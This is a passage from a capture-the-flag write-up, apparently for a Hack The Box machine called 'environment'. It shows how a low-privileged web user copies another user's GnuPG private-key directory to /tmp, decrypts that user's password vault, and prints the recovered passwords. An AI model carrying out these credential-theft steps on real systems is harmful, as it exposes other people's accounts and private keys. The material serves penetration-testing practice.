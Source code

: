 But that won't work and take a lot of time and actually isn't needed to get hish's password because we have access to hish's home directory to read all files inside

### Decrypting hish's GPG keyvault

```bash
www-data@environment:~$ ls -la /home/hish
ls -la /home/hish
total 36
drwxr-xr-x 5 hish hish 4096 Apr 11 00:51 .
drwxr-xr-x 3 root root 4096 Jan 12  2025 ..
lrwxrwxrwx 1 root root    9 Apr  7 19:29 .bash_history -> /dev/null
-rw-r--r-- 1 hish hish  220 Jan  6  2025 .bash_logout
-rw-r--r-- 1 hish hish 3526 Jan 12  2025 .bashrc
drwxr-xr-x 4 hish hish 4096 Sep  5 17:46 .gnupg
drwxr-xr-x 3 hish hish 4096 Jan  6  2025 .local
-rw-r--r-- 1 hish hish  807 Jan  6  2025 .profile
drwxr-xr-x 2 hish hish 4096 Jan 12  2025 backup
-rw-r--r-- 1 root hish   33 Sep  5 04:00 user.txt
```

Looking at backup directory we see `keyvault.gpg` file that we can try to decrypt using GPG. But we will fail to do so when simply trying to decrypt it using `gpg -d keyvault.gpg`:

```bash
www-data@environment:/home/hish$ ls -la backup/
ls -la backup/
total 12
drwxr-xr-x 2 hish hish 4096 Jan 12  2025 .
drwxr-xr-x 5 hish hish 4096 Apr 11 00:51 ..
-rw-r--r-- 1 hish hish  430 Sep  5 17:48 keyvault.gpg
www-data@environment:/home/hish$ cd backup
cd backup
www-data@environment:/home/hish/backup$ gpg -d keyvault.gpg
gpg -d keyvault.gpg
gpg: Fatal: can't create directory '/var/www/.gnupg': Permission denied
```

because we don't have permission to create files as www-data user in /var/www.

So we'll need to copy `keyvault.gpg` and hish's `.gnupg` directory with their private keys to directory we have write permissions to. I'll use `/tmp` for this

Also, for gpg to know that it needs to use private keys from our copied directory we need to pass `--homedir /tmp/.gnupg` parameter:

```bash
www-data@environment:$ cd /tmp
www-data@environment:/tmp$ cp -r /home/hish/.gnupg . && cd .gnupg
www-data@environment:/tmp/.gnupg$ ls
openpgp-revocs.d   pubring.kbx   random_seed
private-keys-v1.d  pubring.kbx~  trustdb.gpg
www-data@environment:/tmp/.gnupg$ cp /home/hish/backup/keyvault.gpg .
www-data@environment:/tmp/.gnupg$ gpg --homedir /tmp/.gnupg -d keyvault.gpg
gpg --homedir /tmp/.gnupg -d keyvault.gpg
gpg: WARNING: unsafe permissions on homedir '/tmp/.gnupg'
gpg: encrypted with 2048-bit RSA key, ID B755B0EDD6CFCFD3, created 2025-01-11
      "hish_ <hish@environment.htb>"
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
```
